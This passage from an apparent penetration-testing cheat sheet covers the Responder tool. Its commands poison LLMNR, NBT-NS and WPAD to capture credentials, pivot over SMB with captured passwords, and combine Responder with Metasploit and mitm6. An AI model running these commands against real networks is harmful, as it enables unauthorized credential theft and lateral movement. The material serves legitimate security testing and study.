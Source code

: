 #### Post-Exploitation Techniques

1. **Capturing Browser-Based Authentication**: Combines Basic HTTP authentication with WPAD poisoning to capture browser-based credentials.
    ```bash
    responder -I <interface> -f -w
    ```
2. **Pivoting with Captured Credentials**: Uses credentials captured by Responder to pivot into other systems via SMB.
    ```bash
    smbclient -L <target_ip> -U "DOMAIN\captured_user%captured_password"
    ```
3. **Harvesting Credentials from Multiple Interfaces**: Captures credentials across multiple network interfaces, useful in environments with complex network segmentation.
    ```bash
    responder -I <interface1> -I <interface2> -r
    ```
4. **Using Responder with Metasploit**: Integrates Responder with Metasploit to capture and utilize SMB credentials within the Metasploit framework.
    ```bash
    msfconsole
    use auxiliary/server/capture/smb
    set INTERFACE <interface>
    run
    ```
5. **Combining Responder with Other Tools**: Runs Responder in conjunction with MITM6, an IPv6-based attack tool, to enhance credential harvesting capabilities by exploiting different protocols simultaneously.
    ```bash
    responder -I <interface> -w &
    mitm6 -i <interface> -d <domain>
    ```

## Penetration Testing Techniques

#### External Reconnaissance

Responder can be used during external reconnaissance to gather information about the network environment, identify potential targets, and collect credentials.

1. **Identifying LLMNR and NBT-NS Enabled Networks**: Uses Responder in analysis mode to identify networks where LLMNR and NBT-NS are enabled, highlighting potential attack surfaces.
    ```bash
    responder -I <interface> -A
    ```
2. **Fingerprinting Network Services**: Runs Responder in verbose mode to capture detailed information about the types of queries being made on the network, aiding in service fingerprinting.
    ```bash
    responder -I <interface> -v
    ```
3. **Network Enumeration via WPAD**: Uses WPAD poisoning to trick devices into connecting through Responder, revealing information about the internal network structure.
    ```bash
    responder -I <interface> -w
    ```
4. **Identifying High-Value Targets**: Analyzes responses to SMB and HTTP poisoning to identify high-value targets based on the types of credentials being captured.
    ```bash
    responder -I <interface> -r
    ```
5. **Mapping Network Vulnerabilities**: Logs all captured data in extreme verbosity, allowing for detailed post-analysis to map out network vulnerabilities.
    ```bash
    responder -I <interface> -vvv -l /path/to/logfile.log